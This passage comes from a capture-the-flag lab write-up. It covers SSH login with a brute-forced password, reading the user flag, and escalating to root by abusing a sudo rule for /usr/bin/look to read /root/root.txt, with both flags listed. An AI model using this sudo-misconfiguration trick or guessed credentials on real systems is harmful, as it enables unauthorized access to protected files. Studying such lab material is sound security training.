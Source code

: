 - Out of all these passwords, one stands out. Use it to connect with SSH and read the flag.

  ```
  ssh think@10.10.13.84
  josemario.AKA(think)
  
  think@ip-10-10-13-84:~$ cat /home/think/user.txt 
  38375fb4dd8baa2b2039ac03d92b820e
  ```

---

## 👑 Root Privilege Escalation

- Getting root flag is much easier than user flag. Run `sudo -l` and then check GTFOBin for exploit.

  ```
  think@ip-10-10-13-84:~$ sudo -l
  [sudo] password for think: 
  Matching Defaults entries for think on ip-10-10-13-84:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User think may run the following commands on ip-10-10-13-84:
      (ALL) /usr/bin/look
  
  think@ip-10-10-13-84:~$ sudo look '' "/root/root.txt"
  5a285a9f257e45c68bb6c9f9f57d18e8
  ```

---

## 🏁 Flags

- **User Flag**: `38375fb4dd8baa2b2039ac03d92b820e`
- **Root Flag**: `5a285a9f257e45c68bb6c9f9f57d18e8`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much, just brute forcing is boring.`

- What did I learn?
  `How annoying brute forcing is...`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
